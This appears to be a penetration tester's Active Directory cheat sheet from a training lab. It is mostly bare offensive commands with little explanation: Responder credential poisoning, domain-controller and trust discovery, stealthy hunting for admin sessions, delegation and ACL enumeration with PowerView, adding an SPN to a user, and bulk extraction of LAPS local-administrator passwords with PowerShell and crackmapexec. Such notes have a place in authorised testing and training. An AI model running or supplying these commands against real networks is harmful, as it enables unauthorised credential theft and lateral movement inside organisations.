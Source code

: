 Reccoinessanse in network without creds and sessions:
responder -I "eth0" -A

enum4linux-ng.py -A

## find the PDC (Principal Domain Controller)
nslookup -type=srv _ldap._tcp.pdc._msdcs.$FQDN_DOMAIN

## find the DCs (Domain Controllers)
nslookup -type=srv _ldap._tcp.dc._msdcs.$FQDN_DOMAIN

## find the GC (Global Catalog, i.e. DC with extended data)
nslookup -type=srv gc._msdcs.$FQDN_DOMAIN

## Other ways to find services hosts that may be DCs 
nslookup -type=srv _kerberos._tcp.$FQDN_DOMAIN
nslookup -type=srv _kpasswd._tcp.$FQDN_DOMAIN
nslookup -type=srv _ldap._tcp.$FQDN_DOMAIN
nmap -v -sV -p 53 $SUBNET/$MASK
nmap -v -sV -sU -p 53 $SUBNET/$MASK

## Name lookup on a range
nbtscan -r $SUBNET/$MASK

## Find names and workgroup from an IP address
nmblookup -A $IPAdress


# Domain Recon

## Forest and Trusts

### Get Domain Forest
(Get-ADForest).Domains

### Get Domain Trusts

Get-DomainTrust \ Get-AdTrust

### Get all trusts in someone forest

Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name


## Find computers (File Servers and Distributed File servers) where a domain admin session is available

Find-DomainUserLocation –Stealth / Find-DomainUserLocation -CheckAccess


# Domain Delegation

Get-DomainComputer -Unconstraint

Get-DomainComputer -TrustedToAuth

Get-DomainUser -TrustedToAuth




## Enumerate Restricted group

Get-DomainGpoLocalGroup

## Get AD Group members

Get-DomainGroupMember -Identity $groupname

### Get Domain OU

Get-DomainOU / Get-AdOrganizationUnit 

### Get list of child OU (subOU)

Get-ADObject -Filter 'objectClass -eq "organizationalUnit"' -SearchBase "distinguishedName of parent OU"


## Get All computers in OU 

*PowerView
(Get-DomainOU -Identity $OU).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

*AdModule
Get-ADOrganizationalUnit -Identity 'OU=Students,DC=us,DC=techcorp,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name


## Get DomainGPO applied to OU

(Get-DomainOU -Identity $OU).gplink

Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'

or

Get-GPInheritance -Target 'OU=,DC,DC' | select-object -expandproperty InheritedGpoLinks 



## Get user's ACL for group

(Get-ACL "AD:$((Get-Group GroupName).distinguishedname)").access

## Find Interesting ACL for user or group. That your user has permission 
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'GROUPNAME or USERNAME'}

## Get-ACL for users in group
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'studentuser1'}

## Get all groups for specific user

function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
$groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname)
   $groups
   if ($groups.count -gt 0)
   {
        foreach ($group in $groups)
        {
Get-ADPrincipalGroupMembershipRecursive $group }
}
}

Get-ADPrincipalGroupMembershipRecursive "USERNAME"

## Set SPN
Set-ADUser -Identity Support127User -ServicePrincipalNames @{Add='us/myspn127'} -Verbose



# LAPS




## Get LAPS password read permissions
-PowerView (return group or users who can read LAPS passwords) from IdentityName:
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}


### Get LAPS Password for all LAPS machines
$pc_name = (Get-ADComputer -Filter * -Properties name|select name).name
**using LAPS module** 
foreach($pc in $pc_name){Get-AdmPwdPassword -ComputerName $pc}
**using PowerView**
foreach($pc in $pc_name){Get-DomainObject -Identity $pc | Select -ExpandProperty ms-mcs-admpwd}
**using ADModule**
Get-adcomputer -identity $pc -properties ms-mcs-admpwd | select -expandproperty ms-mcs-admpwd 

## Get LAPS password remotly
sudo crackmapexec ldap dc01.doamin.local -u 'uname' -p 'passwd' --kdcHost dc01.domain.local -M LAPS 


